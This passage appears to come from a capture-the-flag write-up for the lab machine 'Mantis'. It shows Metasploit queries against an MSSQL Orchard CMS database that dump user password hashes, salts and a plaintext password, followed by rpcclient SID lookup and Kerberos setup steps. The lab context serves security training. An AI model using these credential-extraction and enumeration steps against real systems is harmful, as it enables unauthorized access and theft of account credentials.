<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Containers_ContainerWidgetPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Containers_ContainablePartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Title_TitlePartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Navigation_MenuPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Navigation_AdminMenuPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Scheduling_ScheduledTaskRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_ContentPicker_ContentMenuItemPartRecord&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Alias_AliasRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Alias_ActionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Autoroute_AutoroutePartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<font color="ffff00">blog_Orchard_Users_UserPartRecord</font>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Roles_PermissionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Roles_RoleRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Roles_RolesPermissionsRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Roles_UserRolesPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Packaging_PackagingSource&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Recipes_RecipeStepResultRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_OutputCache_CacheParameterRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_MediaProcessing_ImageProfilePartRecord&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_MediaProcessing_FilterRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_MediaProcessing_FileNameRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Widgets_LayerPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Widgets_WidgetPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Comments_CommentPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Comments_CommentsPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Taxonomies_TaxonomyPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Taxonomies_TermPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Taxonomies_TermContentItem&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Taxonomies_TermsPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_MediaLibrary_MediaPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Blogs_BlogPartArchiveRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE</p>

<p><font color="RoyalBlue">[*]</font> Auxiliary module execution completed
<br>msf auxiliary(<font color="red">mssql_sql</font>) ></p>

</div>
</font>

<br>We got a lot of Table names but we will focus on **blog__Orchard_Users_UserPartRecord** for further enumeration


<font size="1">
<div style="height:200px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>msf auxiliary(mssql_sql) > set SQL USE orcharddb; "SELECT * FROM INFORMATION_SCHEMA.COLUMNS where <br>TABLE_NAME='blog_Orchard_Users_UserPartRecord'"
<br>SQL => USE orcharddb; SELECT * FROM INFORMATION_SCHEMA.COLUMNS where TABLE_NAME='blog_Orchard_Users_UserPartRecord'
<br>msf auxiliary(mssql_sql) > exploit </p>

<p>[*] 10.10.10.52:1433 - SQL Query: USE orcharddb; SELECT * FROM INFORMATION_SCHEMA.COLUMNS where <br>TABLE_NAME='blog_Orchard_Users_UserPartRecord'
<br>[*] 10.10.10.52:1433 - Row Count: 14 (Status: 16 Command: 193)</p>

</div>
</font>

![7](https://teckk2.github.io/assets/images/Mantis/7.png)

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>msf auxiliary(<font color="red">mssql_sql</font>) > set SQL USE orcharddb; SELECT Id,Email,NormalizedUserName,Password,PasswordFormat,HashAlgorithm,PasswordSalt FROM blog_Orchard_Users_UserPartRecord
<br>SQL => USE orcharddb; SELECT Id,Email,NormalizedUserName,Password,PasswordFormat,HashAlgorithm,PasswordSalt FROM blog_Orchard_Users_UserPartRecord
<br>msf auxiliary(<font color="red">mssql_sql</font>) > exploit</p> 

<p><font color="RoyalBlue">[*]</font> 10.10.10.52:1433 - SQL Query: USE orcharddb; SELECT <br>Id,Email,NormalizedUserName,Password,PasswordFormat,HashAlgorithm,PasswordSalt FROM blog_Orchard_Users_UserPartRecord
<br><font color="RoyalBlue">[*]</font> 10.10.10.52:1433 - Row Count: 2 (Status: 16 Command: 193)</p>



<p>&nbsp;Id&nbsp;&nbsp;Email&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;NormalizedUserName&nbsp;&nbsp;Password&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;PasswordFormat&nbsp;&nbsp;HashAlgorithm&nbsp;&nbsp;PasswordSalt
<br>&nbsp;--&nbsp;&nbsp;-----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;------------------&nbsp;&nbsp;--------&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;--------------&nbsp;&nbsp;-------------&nbsp;&nbsp;------------
<br>&nbsp;2&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<font color="ffff00">admin</font>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<font color="ffff00">AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2+A==</font>&nbsp;&nbsp;Hashed&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;PBKDF2&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<font color="ffff00">UBwWF1CQCsaGc/P7jIR/kg==</font>
<br>&nbsp;15&nbsp;&nbsp;james@htb.local&nbsp;&nbsp;<font color="ffff00">james</font>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<font color="ffff00">J@m3s_P@ssW0rd!</font>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Plaintext&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Plaintext&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;NA</p>

<p><font color="RoyalBlue">[*]</font> Auxiliary module execution completed
<br>msf auxiliary(<font color="red">mssql_sql</font>) ></p>

</div>
</font>

<br>We got the James user plaintext password
<br>Email = **james@htb.local**
<br>Username = **james**
<br>Password = **J@m3s_P@ssW0rd!**

<br>Now using this credential we can login to RPC client and extract the SID of user james 

<font size="1">
<div style="height:100px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># rpcclient -U james 10.10.10.52
<br>Enter WORKGROUP\james's password: 
<br>rpcclient $> lookupnames james
<br>james <font color="ffff00">S-1-5-21-4220043660-4019079961-2895681657-1103</font> (User: 1)
<br>rpcclient $> </p>

</div>
</font>

<br> Now before we proceed we need to install and edit few things like time, nameservers, etc.. So we could connect to the server.


<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># <font color="ffff00">apt-get install rdate</font> 
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># <font color="ffff00">apt-get install krb5-user</font>
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cat /etc/hosts
<br>127.0.0.1	localhost
<br>127.0.1.1	kali
<br>10.10.10.65	beehive.ariekei.htb
<br>10.10.10.81	bart.local
<br><font color="ffff00">10.10.10.52	mantis.htb.local</font>
<br>10.10.10.75	nibbles.htb
<br>10.10.10.13	admin.cronos.htb
<br>10.10.10.79	valentine.htb
<br>10.10.10.80	crimestoppers.htb
<br>10.10.10.61	enterprise.htb
<br>10.10.10.67	inception.htb
<br>10.10.10.69	fluxcapacitor.htb
<br>10.10.10.65	calvin.ariekei.htb
<br>10.10.10.60	sense.htb
<br>192.0.78.24	curlupallure.com</p>

<p># The following lines are desirable for IPv6 capable hosts
<br>::1     localhost ip6-localhost ip6-loopback
<br>ff02::1 ip6-allnodes
<br>ff02::2 ip6-allrouters
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cat /etc/resolv.conf 
<br># Generated by NetworkManager
<br>search localdomain
<br><font color="ffff00">nameserver 10.10.10.52</font>
<br>nameserver 192.168.140.2
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>

</div>
</font>













